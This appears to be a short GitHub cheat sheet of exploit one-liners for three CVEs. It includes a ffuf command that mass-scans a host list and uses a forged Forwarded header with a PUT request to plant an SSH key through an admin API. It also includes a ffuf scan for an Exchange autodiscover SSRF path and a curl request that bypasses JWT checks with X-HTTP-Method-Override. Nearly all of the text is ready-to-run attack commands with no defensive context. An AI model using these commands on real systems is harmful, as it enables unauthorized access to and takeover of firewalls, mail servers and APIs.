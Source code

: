 
 ## CVE-2022-40684
#### @h4x0r_dz
```
 ffuf -w "host_list.txt:URL" -u "https://URL/api/v2/cmdb/system/admin/admin" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r
 ```

## CVE-2022-41040
#### @unknown
```
 ffuf -w "urllist.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
## bypasses JWT checking by using the X-HTTP-Method-Override request header!
#### CVE-2023-30845
```
 curl --request POST \
     --header "X-HTTP-Method-Override: PUT" \
     --header "Content-Type: application/json" \
     --data '{"username":"xyz"}' \
     https://my-endpoint.com/api
```
